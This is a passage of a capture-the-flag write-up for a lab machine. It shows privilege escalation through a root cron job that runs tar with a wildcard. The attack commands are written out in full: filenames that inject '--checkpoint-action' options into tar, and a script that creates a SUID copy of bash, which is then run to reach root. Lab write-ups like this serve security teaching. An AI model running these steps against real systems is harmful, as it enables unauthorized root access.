 ```bash
andre@cmess:~/backup$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

Write a malicious shell script named `tgihf.sh` in `/home/andre/backup`. Make sure it's executable.

```bash
cp /bin/bash /tmp/bash
chmod +s /tmp/bash
```

Create two files in `/home/andre/backup`: `--checkpoint=1` and `--checkpoint-action=exec=sh tgihf.sh`.

```bash
andre@cmess:~/backup$ touch /home/andre/backup/--checkpoint=1
andre@cmess:~/backup$ touch '/home/andre/backup/--checkpoint-action=exec=sh tgihf.sh'
```

When the `cron` job runs, the wildcard (`*`) passed to `tar` will expand and include the two new files created, effectively invoking the command `cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz note tgihf.sh --checkpoint=1 '--checkpoint-action=exec=sh tgihf.sh'`. The `--checkpoint` and `--checkpoint-action` arguments will cause the execution of `/home/andre/tgihf.sh`, which will create a SUID version of `bash` at `/tmp/bash`.

Wait at most two minutes for the job to run. Run the SUID `bash` to elevate to `root` and grab the system flag.

```bash
andre@cmess:~/backup$ ls /tmp/
andre_backup.tar.gz  bash  systemd-private-adb3a73494624cb3b708047ba64d8343-systemd-timesyncd.service-8zZBwy  VMwareDnD
andre@cmess:~/backup$ /tmp/bash -p
bash-4.3# id
uid=1000(andre) gid=1000(andre) euid=0(root) egid=0(root) groups=0(root),1000(andre)
```
